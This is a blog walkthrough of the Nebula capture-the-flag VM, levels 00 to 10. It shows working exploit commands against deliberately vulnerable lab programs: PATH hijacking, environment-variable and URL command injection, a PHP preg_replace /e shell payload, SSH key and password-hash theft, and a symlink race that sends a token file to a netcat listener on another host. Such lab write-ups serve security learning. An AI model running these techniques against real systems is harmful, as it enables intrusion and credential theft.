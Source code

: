 Cracking Nebula Part 1
######################

:title: Cracking Nebula Part 1
:date: 2014-06-24T00
:modified: 2014-06-24 22
:tags:


On `Exploit Exercises <http://www.exploit-exercises.com/>`_ you can find a 
number of CTF (Capture The Flag) VM images where you can practice your 
exploiting, hacking and general computer savviness. I've been working 
my way through the Nebula machine and figured I might as well write 
up the process both for other's benefit if they get stuck, and also as 
a sort of diary for myself, so I can refer back to any info if I need to.

The Nebula VM can be downloaded from the `Exploit Exercises download page <http://www.exploit-exercises.com/download>`_

To quickly explain what you need to do: Login in as user :code:`levelxx` and then run :code:`getflag` as user :code:`flagxx`. 
There's some explanations for each level on the machine's page over at Exploit Exercises.


Level 00
-----------

    This level requires you to find a Set User ID program that will run as the "flag00" account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

    Alternatively, look at the find man page. 

So somewhere from the root directory is a file will run as the flag00 user. As stated you can either look for it, or
use :code:`find` to search for it. I chose to do a little bit of both. Running :code:`find` from the root of a system can take some time so I chose to take a look first. Amongst the usual directories at linux root level is a :code:`rofs` directory. So let's take a look inside.

.. code:: console

	
	flag00@nebula:/rofs$ ls
	bin   dev  home        lib    mnt  proc  run   selinux  sys  usr  vmlinuz
	boot  etc  initrd.img  media  opt  root  sbin  srv      tmp  var
	

Looks the same, but let's run a find in here.

.. code:: console

	
	level00@nebula:/rofs$ find -user flag00 -print 2> /dev/null
	./bin/.../flag00
	./home/flag00
	./home/flag00/.bash_logout
	./home/flag00/.bashrc
	./home/flag00/.profile
	

There's the usual stuff, but there's also :code:`./bin/.../flag00`. If you run this you can get the flag:

.. code:: console

	
	level00@nebula:/rofs$ ./bin/.../flag00
	Congrats, now run getflag to get your flag!
	flag00@nebula:/rofs$ getflag
	You have successfully executed getflag on a target account
	

Level 01
-----------

    There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

.. code:: c

	
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  gid_t gid;
	  uid_t uid;
	  gid = getegid();
	  uid = geteuid();
	
	  setresgid(gid, gid, gid);
	  setresuid(uid, uid, uid);
	
	  system("/usr/bin/env echo and now what?");
	}
	

So let's see about this vulnerability. It doesn't accept user input, but luckily there's only one place where it actually runs anything, so that makes it easier to narrow down where its weakness is. The :code:`system` call executes an :code:`echo` but there's a small oversight. It calls :code:`echo` without an explicit path, can you see where this is going? As :code:`flag01` runs as user :code:`flag01`, anything it executes will also run under that user.

.. code:: console

	
	level01@nebula:/home/flag01$ mkdir /tmp/mybin
	level01@nebula:/home/flag01$ cd /tmp/mybin
	level01@nebula:/tmp/mybin$ which getflag
	/bin/getflag
	level01@nebula:/tmp/mybin$ cp /bin/getflag echo
	level01@nebula:/tmp/mybin$ cd ~flag01
	level01@nebula:/home/flag01$ export PATH=/tmp/mybin:${PATH}
	level01@nebula:/home/flag01$ ./flag01
	You have successfully executed getflag on a target account
	

Level 02
-----------

    There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

.. code:: C

	
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  char *buffer;
	
	  gid_t gid;
	  uid_t uid;
	
	  gid = getegid();
	  uid = geteuid();
	
	  setresgid(gid, gid, gid);
	  setresuid(uid, uid, uid);
	
	  buffer = NULL;
	
	 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
	  printf("about to call system(\"%s\")\n", buffer);
	  
	  system(buffer);
	}

This is very similar to *Level01* but this time they seem to have patched the system call. However this time they've added something to the statement that we have control over. Look at line 22 and think about how we can make use of that.

.. code:: console

	level02@nebula:/home/flag02$ export USER='"";getflag'
	level02@nebula:/home/flag02$ ./flag02
	about to call system("/bin/echo "";getflag is cool")
	
	You have successfully executed getflag on a target account

Level 03
-----------

    Check the home directory of flag03 and take note of the files there.

    There is a crontab that is called every couple of minutes. 

So first things first let's take a look at that crontab

.. code:: console

	level03@nebula:/home/flag03$ cat writable.sh
	#!/bin/sh
	
	for i in /home/flag03/writable.d/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done

Ok, so it will take a shell script in the :code:`writeable.d` directory, execute it and then delete it. Luckily the directory is world read/write, allowing us to add out own script. As the crontab will run the script as the :code:`flag03` user, we might as well just run the :code:`getflag` from it. We'll capture some output to make sure it worked.

.. code:: console

	level03@nebula:/home/flag03$ cat writeable.d/getit
	/bin/getflag > /tmp/gotit
	# wait for the script to run....
	level03@nebula:/home/flag03$ cat /tmp/gotflag
	You have successfully executed getflag on a target account

Level 04
-----------

    This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :) 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  char buf[1024];
	  int fd, rc;
	
	  if(argc == 1) {
	    printf("%s [file to read]\n", argv[0]);
	    exit(EXIT_FAILURE);
	  }
	
	  if(strstr(argv[1], "token") != NULL) {
	    printf("You may not access '%s'\n", argv[1]);
	    exit(EXIT_FAILURE);
	  }
	
	  fd = open(argv[1], O_RDONLY);
	  if(fd == -1) {
	    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
	  }
	
	  rc = read(fd, buf, sizeof(buf));
	  
	  if(rc == -1) {
	    err(EXIT_FAILURE, "Unable to read fd %d", fd);
	  }
	
	  write(1, buf, rc);
	}

Ok, so let's take a look at what happens when we run the file

.. code:: console

	level04@nebula:/home/flag04$ ls
	flag04  token
	level04@nebula:/home/flag04$ ./flag04
	./flag04 [file to read]
	level04@nebula:/home/flag04$ ./flag04 token
	You may not access 'token'

So we can't access token. Looking at the code there's a check to see if the file is named :code:`token`. We can't simply copy the *token* file because it's read only by the flag user. So there's only one thing for it: symlinks

Then get the flag (some ssh output cut for brevity)

.. code:: console

	level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/myfile
	level04@nebula:/home/flag04$ ./flag04 /tmp/myfile
	06508b5e-8909-4f38-b630-fdb148a848a2
	level04@nebula:/home/flag04$ ssh flag04@localhost
	
	flag04@localhost's password:
	
	flag04@nebula:~$ getflag
	You have successfully executed getflag on a target account

So the output of the command is a *token* which is the term used for the password of the flag's user. Using this to logon as *flag04* and run :code:`getflag`.

Level 05
-----------

    Check the flag05 home directory. You are looking for weak directory permissions 

Ok, let's do that

.. code:: console

	level05@nebula:~$ cd ~flag05
	level05@nebula:/home/flag05$ ls -la
	total 5
	drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
	drwxr-xr-x 1 root   root     420 2012-08-27 07:18 ..
	drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
	-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
	-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
	-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
	drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

That *backup* directory looks like our target

.. code:: console

	level05@nebula:/home/flag05$ cd .backup/
	level05@nebula:/home/flag05/.backup$ ls -la
	total 2
	drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
	drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
	-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
	level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp
	.ssh/
	.ssh/id_rsa.pub
	.ssh/id_rsa
	.ssh/authorized_keys

Right so let's use these keys to login as *flag05*. 

.. code:: console

	level05@nebula:/home/flag05/.backup$ ssh -i /tmp/.ssh/id_rsa flag05@localhost
	
	flag05@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 06
-----------

    The flag06 account credentials came from a legacy unix system. 

To cut a long story short, the way the password is stored for this user is not the same as for the other users. In older * nix systems the password was stored inside the :code:`/etc/passwd` file. So let's take a look:

.. code:: console

	level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
	flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

Yep, there's the encrypted password. Grab that line and run it through John The Ripper

.. code:: console

	root@kali:~# echo flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh > nebula.txt
	root@kali:~# john nebula.txt  -show
	flag06:hello:993:993::/home/flag06:/bin/sh
	
	1 password hash cracked, 0 left

That's that, now back on the nebula box

.. code:: console

	level06@nebula:/home/flag06$ ssh flag06@localhost
	
	flag06@localhost's password: hello
	
	getflag06@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 07
-----------

    The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. 

.. code:: perl

	#!/usr/bin/perl
	
	use CGI qw{param};
	
	print "Content-type: text/html\n\n";
	
	sub ping {
	  $host = $_[0];
	
	  print("<html><head><title>Ping results</title></head><body><pre>");
	
	  @output = `ping -c 3 $host 2>&1`;
	  foreach $line (@output) { print "$line"; } 
	
	  print("</pre></body></html>");
	  
	}
	
	# check if Host set. if not, display normal page, etc
	
	ping(param("Host"));
	
So the Nebula machine has a webserver running. Checking the config file we can see that it's running on port 7007. The script tells us that it's expecting a :code:`Host` parameter. So let's hit the server from our web browser at the following URL (your IP will depend on what IP your VM has) :code:`http://192.168.56.102:7007/index.cgi?Host=192.168.56.102`

Basically I am pinging the same host. The webpage will display the output of the ping command.

We can't change the ping call, but we have control over what gets passed to the command. Let's craft a special URL

.. code:: console

	$> curl http://192.168.56.102:7007/index.cgi?Host=127.0.0.1%20%26%26%20getflag
	<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
	64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.117 ms
	64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.028 ms
	64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.035 ms
	
	--- 127.0.0.1 ping statistics ---
	3 packets transmitted, 3 received, 0% packet loss, time 1998ms
	rtt min/avg/max/mdev = 0.028/0.060/0.117/0.040 ms
	You have successfully executed getflag on a target account

Notice we need to encode the URL parms. The plaintext URL is :code:`http://192.168.56.102:7007/index.cgi?Host=127.0.0.1 && getflag`

Level 08
-----------

    World readable files strike again. Check what that user was up to, and use it to log into flag08 account. 

Let's take a look then

.. code:: console

	level08@nebula:/home/flag08$ ls -la
	total 18
	drwxr-x--- 1 flag08 level08   60 2014-06-14 14:10 .
	drwxr-xr-x 1 root   root     500 2012-08-27 07:18 ..
	-rw------- 1 flag08 flag08    13 2014-06-14 14:10 .bash_history
	-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
	-rw-r--r-- 1 flag08 flag08  3353 2011-05-18 02:54 .bashrc
	-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
	-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile

The only interesting file that's readable here is :code:`capture.pcap`. Let's copy it out and use *Wireshark* to take a look at it.

.. code:: console

	$> scp level08@192.168.56.102:/home/flag08/capture.pcap .
	
	level08@192.168.56.102's password:
	capture.pcap                                  100% 8302     8.1KB/s   00:00
	

Once in Wireshark we can see a TCP stream. Right click on one of the entries and select :code:`Follow TCP Stream`. A new window will appear in which we can see a login attempt. Red entries are user input, and blue entries are the server responses. The username is :code:`level08`. The password is... well, take a look. Notice the :code:`7f` entries. Those are deletes.

.. image:: http://i.imgur.com/IEseNUh.png
    :width: 400px
    :target: http://i.imgur.com/IEseNUh.png

So....

.. code:: console

	level08@nebula:/home/flag08$ ssh flag08@localhost
	
	flag08@localhost's password: backd00Rmate
	
	flag08@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 09
-----------

    There's a C setuid wrapper for some vulnerable PHP code... 

.. code:: php

	<?php
	
	function spam($email)
	{
	  $email = preg_replace("/\./", " dot ", $email);
	  $email = preg_replace("/@/", " AT ", $email);
	  
	  return $email;
	}
	
	function markup($filename, $use_me)
	{
	  $contents = file_get_contents($filename);
	
	  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
	  $contents = preg_replace("/\[/", "<", $contents);
	  $contents = preg_replace("/\]/", ">", $contents);
	
	  return $contents;
	}
	
	$output = markup($argv[1], $argv[2]);
	
	print $output;
	
	?>

Let's run it to see what it actually does.

.. code:: console

	level09@nebula:/home/flag09$ echo [email mail@test.com] > /tmp/test.txt
	level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
	mail AT test dot com

So the vulnerable part here is the `preg_replace` with the *e* flag. For information on this see `https://bugs.php.net/bug.php?id=35960 <https://bugs.php.net/bug.php?id=35960>`_.

So there's a few ways we can exploit this. We basically need to pass a command to the script that will get executed in the :code:`preg_replace`. Let's try to simply get a shell as the *flag09* user and get our flag.

.. code:: console

	level09@nebula:/home/flag09$ echo '[email ${${@system('sh')}}]' > /tmp/test.txt
	level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
	sh-4.2$ whoami
	flag09
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

Level 10
-----------

    The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	#include <errno.h>
	#include <sys/socket.h>
	#include <netinet/in.h>
	#include <string.h>
	
	int main(int argc, char **argv)
	{
	  char *file;
	  char *host;
	
	  if(argc < 3) {
	    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
	    exit(1);
	  }
	
	  file = argv[1];
	  host = argv[2];
	
	  if(access(argv[1], R_OK) == 0) {
	    int fd;
	    int ffd;
	    int rc;
	    struct sockaddr_in sin;
	    char buffer[4096];
	
	    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
	
	    fd = socket(AF_INET, SOCK_STREAM, 0);
	
	    memset(&sin, 0, sizeof(struct sockaddr_in));
	    sin.sin_family = AF_INET;
	    sin.sin_addr.s_addr = inet_addr(host);
	    sin.sin_port = htons(18211);
	
	    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
	      printf("Unable to connect to host %s\n", host);
	      exit(EXIT_FAILURE);
	    }
	
	#define HITHERE ".oO Oo.\n"
	    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
	      printf("Unable to write banner to host %s\n", host);
	      exit(EXIT_FAILURE);
	    }
	#undef HITHERE
	
	    printf("Connected!\nSending file .. "); fflush(stdout);
	
	    ffd = open(file, O_RDONLY);
	    if(ffd == -1) {
	      printf("Damn. Unable to open file\n");
	      exit(EXIT_FAILURE);
	    }
	
	    rc = read(ffd, buffer, sizeof(buffer));
	    if(rc == -1) {
	      printf("Unable to read from file: %s\n", strerror(errno));
	      exit(EXIT_FAILURE);
	    }
	
	    write(fd, buffer, rc);
	
	    printf("wrote file!\n");
	
	  } else {
	    printf("You don't have access to %s\n", file);
	  }
	}
	

Now this one take a bit of playing around to get it right. Basically what we are exploiting here is that the file gets checked and then gets used. The :code:`access` call checks the permissions based on the actual user, not the guid user. The file open calls however will run as the guid user. So in between these two calls, we *could* modify the target file and get the program to read the right file.

So ideally we want to create a symlink to a file we own when the :code:`access` call runs, then replace that symlink with one that points to the token file. This relies heavily on timing when to update the symlink. I had a play and this is the most reliable way I have found.

You will need two shells (both on nebula is fine but optional); call them termA and termB. So in termB startup a listening netcat on the relevant port

.. code:: console

	level10@nebula:~$ nc -l 18211

in termA we create our symlink, then run the command along with a command to update the symlink

.. code:: console

	level10@nebula:/home/flag10$ touch /tmp/mytoken
	level10@nebula:/home/flag10$ ln -fs /tmp/mytoken /tmp/getme
	level10@nebula:/home/flag10$ ./flag10 /tmp/getme 192.168.0.8 & ln -fs /home/flag10/token /tmp/getme
	[1] 7359
	Connecting to 192.168.0.8:18211 .. level10@nebula:/home/flag10$ Connected!
	Sending file .. wrote file!

Meanwhile, back in termB

.. code:: console

	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
	level10@nebula:~$ ssh flag10@localhost
	
	flag10@localhost's password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
	
	flag10@nebula:~$ getflag
	You have successfully executed getflag on a target account

`Part 2 of Cracking Nebula <http://unlogic.co.uk/2014/07/02/cracking-nebula-part2/>`_

